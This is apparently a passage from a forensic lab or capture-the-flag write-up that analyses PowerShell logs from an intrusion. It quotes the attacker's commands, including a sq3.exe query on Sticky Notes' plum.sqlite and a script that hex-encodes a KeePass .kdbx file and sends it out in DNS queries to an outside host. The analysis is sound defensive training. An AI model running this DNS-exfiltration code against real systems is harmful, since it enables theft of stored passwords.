 
**What is the file accessed by the attacker using the downloaded `sq3.exe` binary? Provide the full file path with escaped backslashes.**

Looking still at the unique "ScriptBlockText" values, we see the **sq3.exe** binary being used with a file called **plum.sqlite**. 

```
".\\Music\\sq3.exe AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite \"SELECT * from NOTE limit 100\";pwd"
```

This only lists a relative path, but other log entries show the current user context as **C:\\Users\\j.westcott\\**. Knowing AppData is expected to be in a specific user directory, we can construct the full path as: 

**C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite**.

---

**What is the software that uses the file in Q3?**

Based on the path of the last question, this seems to be referring to Microsoft Sticky Notes. Research confirms this and that plum.sqlite is exclusively used for Microsoft Sticky Notes.

---

**What is the name of the exfiltrated file?**

Looking at these "ScriptBlockText" values, we can see the file being exfiltrated.

```
"$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'; 
$destination = \"167.71.211.113\"; 
$bytes = [System.IO.File]::ReadAllBytes($file);;pwd"

"$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd"

"$split = $hex -split '(\\S{50})'; 
ForEach ($line in $split) { 
nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"
```

The ForEach look in the last section of this is using DNS lookups to exfiltrate small parts of the file at a time, sent as the subdomain using the `$line` variable as shown here:

`"$line.bpakcaging.xyz\"`

Looking back at the relevant variables containing the data being exfiltrated, `$split`, `$hex`, `$bytes`, `$file`, we can see the exfiltrated file is **protected_data.kdbx**.

---

**What type of file uses the .kdbx file extension?**

Googling this reveals this is a *"highly encrypted database file used by the popular **KeePass** password manager and its various forks (like KeePassXC) to securely store sensitive user data, such as usernames, passwords, and notes."*

---